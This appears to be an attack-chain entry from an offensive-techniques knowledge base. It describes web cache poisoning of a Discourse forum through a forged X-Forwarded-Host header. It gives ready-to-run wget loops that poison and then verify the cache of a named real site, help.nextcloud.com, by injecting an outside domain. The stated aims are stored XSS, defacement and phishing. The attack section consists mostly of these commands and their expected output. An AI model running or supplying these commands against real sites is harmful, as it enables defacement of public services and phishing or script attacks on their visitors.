

---
tags:
  - web-cache-poisoning
  - xss
  - phishing
  - discourse
type: attack_chain
tools:
  - '[[tools/wget]]'
  - '[[tools/grep]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/wget-cache-poisoning-loop]]'
  - '[[commands/wget-cache-verification-loop]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Poison-Web-Cache-Using-X-Forwarded-Host]]'
  - '[[procedures/Verify-Cache-Poisoning-Success]]'
  - '[[procedures/Access-Poisoned-Cache-Content]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Multi-stage attack chain exploiting web cache poisoning on a Discourse forum
  by manipulating the X-Forwarded-Host header to inject malicious content,
  leading to stored XSS, defacement, or phishing.
skill_level: intermediate
impact_level: high
id: 9ea4d352-3378-411e-b9cd-c9600aa4e7c7
created_at: '2025-12-13T09:00:34.155Z'
updated_at: '2025-12-13T09:00:34.155Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Web Cache Poisoning via X-Forwarded-Host on Discourse Forum

Multi-stage attack chain demonstrating how to exploit a web cache poisoning vulnerability in a Discourse-based forum, such as Nextcloud's help forum, by injecting a malicious X-Forwarded-Host header. This allows embedding arbitrary content like XSS payloads or malicious URLs, potentially leading to stored XSS, website defacement, phishing, and browser blocking of the site.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/wget]]
- [[tools/grep]]

### Target Environment

- Web platform running Discourse
- Vulnerable caching mechanism that honors X-Forwarded-Host header
- Network access to the target URL (e.g., https://help.nextcloud.com)

### Initial Access Requirements

- No credentials required
- Ability to send HTTP requests to the target
- Public-facing web application

## Detailed Attack Procedures

### Step 1: Poison the Web Cache
procedure: [[procedures/Poison-Web-Cache-Using-X-Forwarded-Host]]

**Objective**: Manipulate the cache by repeatedly sending requests with a malicious X-Forwarded-Host header to inject arbitrary content.

**Instructions**: Use [[commands/wget-cache-poisoning-loop]] to send GET requests to the target URL with the manipulated header:

```bash
while true; do wget "https://help.nextcloud.com/?qwKzzSR=649227948379" --header 'X-Forwarded-Host: cyberjutsu.io/#' -qO- >/dev/null; echo "poisoning...";done
```

This loops indefinitely to poison the cache with the injected host (cyberjutsu.io/#).

**Expected Output**: No direct output as it's discarded; status echoes 'poisoning...' for each request.

**Success Indicators**:
- Requests are sent without errors
- Cache is manipulated after sufficient iterations

### Step 2: Verify Cache Poisoning
procedure: [[procedures/Verify-Cache-Poisoning-Success]]

**Objective**: Confirm that the malicious content is being served from the cache by checking responses for the injected domain.

**Instructions**: Use [[commands/wget-cache-verification-loop]] to send GET requests and grep for the injected content:

```bash
while true; do wget "https://help.nextcloud.com/?qwKzzSR=649227948379" -qO- | grep "cyberjutsu.io"; echo "ping my payload..." ;done
```

This checks if 'cyberjutsu.io' appears in the response, indicating successful poisoning.

**Expected Output**: If poisoned, outputs lines containing 'cyberjutsu.io'; echoes 'ping my payload...' for status.

**Success Indicators**:
- Injected domain appears in responses
- Consistent presence confirms cache poisoning

### Step 3: Access Poisoned Content
procedure: [[procedures/Access-Poisoned-Cache-Content]]

**Objective**: Observe the impact by accessing the poisoned URL, which may trigger XSS, defacement, or phishing.

**Instructions**: Visit the URL https://help.nextcloud.com/?qwKzzSR=649227948379 in a web browser to view the cached response with injected malicious content.

No specific command is used; this is a manual access step.

**Expected Output**: The page loads with injected content, potentially executing XSS or showing defaced elements.

**Success Indicators**:
- Malicious content is visible
- Potential browser warnings or script execution occurs

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious host into cache
2. Verification of poisoned responses
3. Demonstration of impacts like XSS and defacement

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
